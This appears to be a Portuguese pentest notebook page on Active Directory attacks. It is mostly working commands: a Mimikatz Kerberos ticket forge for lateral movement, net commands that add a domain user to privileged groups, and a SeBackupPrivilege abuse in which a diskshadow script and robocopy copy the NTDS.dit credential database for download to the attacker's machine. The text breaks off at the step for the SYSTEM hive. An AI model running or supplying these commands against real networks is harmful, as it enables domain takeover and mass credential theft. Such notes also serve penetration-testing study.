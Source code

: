 
Mimikatz

Esse tipo de ataque é interessante para fazer lateralização, dado que vários servidores podem ter a mesma conta de serviço.


    ./m.exe
    kerberos::golden /user:<usuario> /domain:corp.com /sid:<sid_do_dominio> /target:<dominio.local> /service:HTTP /rc4:<nthash> /ptt

## Adicionar usuário privilegiado

    net user <usuario> <senha> /add /domain
    
Adicionando em um grupo privilegiado

    net localgroup Administrators /add <usuario>

ou em um grupo de domínio

    net group "Exchange Windows Permissions" /add <usuario>

## Permissionamento de usuario

Esse ponto consistem em obter os hashes de senha dos usuários do AD utilizando a permissão de usuário SeBackupPrivilege do usuário:

Detectamos isso com o comando:

    whoami /priv

![qownnotes-media-GRqaSH](../../../media/qownnotes-media-GRqaSH.png)

Depois disso, temos de criar um scriptizinho:

    cat test.dsh

```
set context persistent nowriters
add volume c: alias test
create
expose %test% z:
```

Adequando o arquivo para leitura correto do SO Windows:

    uni2dos test.dsh

fazer o upload do arquivo na máquina alvo e executar os seguintes comandos:

```
diskshadow /s test.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

Fazer o download do arquivo ntds.dit para a máquina do atacante. Além deste arquivo, vamos precisar do SYSTEM tabém, que podemos obter por meio do seguinte comando:

(Se necessário, fornecer credencial):
